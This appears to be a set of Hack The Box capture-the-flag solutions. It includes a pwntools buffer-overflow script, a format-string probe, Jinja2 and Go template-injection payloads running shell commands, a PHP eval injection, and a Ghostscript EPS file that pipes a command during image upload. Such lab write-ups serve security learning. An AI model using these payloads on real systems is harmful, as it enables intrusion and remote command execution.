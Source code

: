 # HTBSolutions

## Racecar
**Format String Injection.**

Input: %p %p %p %p 
Transform hex into ascii: reversarAscii.py

## You Know 0xDiablos
**Buffer Overflow.**
#### Padding (188) + FlagFunction + Padding (4) + Argument1 + Argument2 

File:
```
from pwn import *

flag = 0x080491e2
parm1 = 0xdeadbeef
parm2 = 0xc0ded00d

host = input("HOST: ")
host = host.split(':')

payload = b'a'*188 + p32(flag) + b'a'*4 + p32(parm1) + p32(parm2)

p = remote(host[0], int(host[1]))
p.sendline(payload)
p.interactive()
```

## Behind the Scenes
**Sensitive info in Source Code.**
Search Strings.

## Golfer - Part 1
Change JMP to the next instruction instead of to the function FUN_XXXXXX using Patch Instruction and exporting it into a new file.

## Bypass
**Functionality Bypass.**
Using dnSpy (x32). Add breakpoints at each if, changing the variables to true and another breakpoint at the end to see the flag.

## Template
**Code Injection.**
####/{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}

## LoveTok
**Eval Injection.**
#### ${print(`cd ..; cat flag*`)}

## PetPet RCBee
**RCE - Remote Code Execution.**

Create a file without extension:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100


userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```
Change it into a png. Upload it and go to: 
HOST:PORT/static/petpets/flag.txt

## RenderQuest
**Server-Side Template Injection in GO.**

Create a GitHub Page with the file index.html containg:
```
<html>
<head>
    <title>Document</title>
</head>
<body>
    <p>Client IP: {{.ClientIP}}</p>
    <p>User Agent: {{.ClientUA}}</p>
    <h1>HTB RenderQuest</h1>
    <p><b>Show dir:</b> {{.FetchServerInfo "ls /"}}</p>
    <p><b>Flag content:</b> {{.FetchServerInfo "cat /flag*.txt"}}</p>
</body>
</html>
```

Enter the page link as: https//[username].github.io
